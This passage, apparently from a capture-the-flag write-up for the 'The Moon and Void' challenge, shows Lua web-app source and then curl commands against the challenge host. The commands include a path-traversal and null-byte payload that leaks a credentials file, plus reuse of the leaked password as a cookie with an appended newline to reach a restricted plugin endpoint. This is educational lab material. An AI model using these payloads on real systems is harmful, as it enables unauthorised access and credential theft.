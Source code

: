 ```lua
app:dispatch_get(download, "/download")
app:dispatch_post(convert, "/convert")
app:dispatch_post(load_plugin, "/plugin")

-- View functions and others

function random_string(length)
    local tmp = ""
    for i = 1, length do
        tmp = tmp .. string.char(math.random(97, 122))
    end
    return tmp
end

function plugin_page(plugin)
    logger:info("Plugin " .. plugin .. " loaded!")
    cosmo.fill(plugin, "")
end

function render_layout(inner_html)
   return html{
     head{ title"The Moon and Void" },
     body{ inner_html }
   }
end

orbit.htmlify(app, "render_.+")
```

We can see that there's a `/plugin` endpoint, but access to it is restricted. Luckily, we can leak `creds`:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/The_Moon_and_Void]
└─$ curl "https://moon-and-void.intent.ctf.today/download?html=....//creds%00"
<html ><head ><title>The Moon and Void</title></head><body >qapwdadmin
</body></html>
```

Let's try to use it to access the plugins endpoint:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/The_Moon_and_Void]
└─$ curl -X POST "https://moon-and-void.intent.ctf.today/plugin" --cookie "access=qapwdadmin" -s | grep Admin
      <h2 style="color:#000">Not an Admin!</h2>
```

That doesn't work. But if we add newline at the end, it does:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/The_Moon_and_Void]
└─$ curl -X POST "https://moon-and-void.intent.ctf.today/plugin" --cookie "access=qapwdadmin%0A" -s
<html>
                                      <head><title>Server Error</title></head>
                                         <body><pre>/usr/local/share/lua/5.1/orbit.lua:441: attempt to index local 'name' (a nil value)
stack traceback:
        /usr/local/share/lua/5.1/orbit.lua:441: in function </usr/local/share/lua/5.1/orbit.lua:436>
        (tail call): ?
        (tail call): ?
stack traceback:
        /usr/local/share/lua/5.1/orbit.lua:550: in function 'err'
        /usr/local/share/lua/5.1/coxpcall.lua:47: in function </usr/local/share/lua/5.1/coxpcall.lua:45>
        (tail call): ?
```